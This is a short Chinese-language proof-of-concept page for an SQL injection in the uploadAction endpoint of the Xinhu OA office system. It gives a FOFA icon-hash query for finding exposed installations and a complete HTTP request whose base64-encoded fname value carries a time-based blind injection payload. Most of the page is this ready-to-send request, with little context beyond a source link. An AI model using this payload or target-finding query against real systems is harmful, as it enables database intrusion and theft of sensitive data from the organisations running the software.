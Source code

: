 # 信呼OA办公系统后台uploadAction存在SQL注入

信呼OA办公系统是一个开源的在线办公系统。 信呼OA办公系统uploadAction存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## fofa

```java
icon_hash="1652488516"
```

## poc

```javascript
GET /xhoa/api.php?a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw== HTTP/1.1  
Host:  
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"  
Sec-Fetch-Dest: empty  
Accept: application/json, text/javascript, */*; q=0.01  
Referer: http://127.0.0.1:81/xhoa/  
Cookie:   
Sec-Fetch-Mode: cors  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36  
Accept-Encoding: gzip, deflate, br, zstd  
Sec-Fetch-Site: same-origin  
Accept-Language: zh-CN,zh;q=0.9  
X-Requested-With: XMLHttpRequest  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
```

![image-20241128092859877](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280928931.png)



## 漏洞来源

- https://forum.butian.net/article/613
